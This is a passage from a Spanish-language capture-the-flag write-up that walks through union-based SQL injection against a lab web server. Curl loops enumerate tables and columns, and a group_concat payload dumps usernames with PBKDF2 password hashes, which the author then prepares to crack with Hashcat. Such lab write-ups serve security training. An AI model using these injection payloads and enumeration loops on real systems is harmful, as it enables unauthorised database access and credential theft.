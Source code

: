 ```mysql
  "username": "mysql"
  "username": "ozdb"
  "username": "performance_schema"

Consulta 4:
Vamos a averiguar las tablas de una de las bases de datos encontradas anteriormente:
"' union select table_name from information_schema.tables where table_schema="osdb" limit 0,1-- -" 
# for i in $(seq 0 10); do curl -s -X GET "http://10.10.10.96/users/'%20union%20select%20table_name%20from%20information_schema.tables%20where%20table_schema=%22ozdb%22%20limit%20$i,%201--%20-"  | jq ; done | tr '{}' ' '  
 
  "username": "tickets_gbw"
  "username": "users_gbw"
   null

Consulta 5:
Vamos a averiguar las columnas de la tabla en la base de datos que ya hemos encontrado: Usamos Curl: Iteramos sobre un FOR
"' union select column_name from information_schema.columns where table_schema="ozdb" and table_name="users_gbw" limit 0,1-- -"
# for i in $(seq 0 5); do curl -s -X GET "http://10.10.10.96/users/'%20union%20select%20column_name%20from%20information_schema.columns%20where%20table_schema=%22ozdb%22%20and%20table_name=%22users_gbw%22%20limit%20$i,%201--%20-"  | jq ; done | tr '{}' ' '  
 
  "username": "id"
  "username": "username"
  "username": "password"
```
Ya tenemos los Campos `Username & Password` que son en los que queremos visualizar la `DATA` dentro de ellos.
Como `Solo Tenemos una columna` necesitamos jugar con un `GROUP_CONCAT(username, password)` para poder listar dos campos en una sola columna.

```bash
Consulta 6:
vamos a listar los campos Username, Password de la tabla "users_gbw" de la base de datos "ozdb"
"' union select group_concat(username,':',password) from users_gbw-- -"
# curl -s -X GET "http://10.10.10.96/users/'%20union%20select%20group_concat(username,%22:%22,password)%20from%20users_gbw--%20-"  | tr ',' '\n'                     

username":"dorthi:$pbkdf2-sha256$5000$aA3h3LvXOseYk3IupVQKgQ$ogPU/XoFb.nzdCGDulkW3AeDZPbK580zeTxJnG0EJ78
tin.man:$pbkdf2-sha256$5000$GgNACCFkDOE8B4AwZgzBuA$IXewCMHWhf7ktju5Sw.W.ZWMyHYAJ5mpvWialENXofk
wizard.oz:$pbkdf2-sha256$5000$BCDkXKuVMgaAEMJ4z5mzdg$GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY
coward.lyon:$pbkdf2-sha256$5000$bU2JsVYqpbT2PqcUQmjN.Q$hO7DfQLTL6Nq2MeKei39Jn0ddmqly3uBxO/tbBuw4DY
toto:$pbkdf2-sha256$5000$Zax17l1Lac25V6oVwnjPWQ$oTYQQVsuSz9kmFggpAWB0yrKsMdPjvfob9NfBq4Wtkg
admin:$pbkdf2-sha256$5000$d47xHsP4P6eUUgoh5BzjfA$jWgyYmxDK.slJYUTsv9V9xZ3WWwcl9EBOsz.bARwGBQ
```
Encontramos unos hashes, estos hashes pueden ser `crackeados` y averiguamos el tipo de hash que es para luego mediante el uso de la herramienta `Hashcat` 

- TIPO DE HASH - Identificado en hashcat examples hashes wiki 
`| PBKDF2-HMAC-SHA256 | sha256:1000:MTc3MTA0MTQwMjQxNzY=:PYjCU215Mi57AYPKva9j7mvF4Rc5bCnt |`
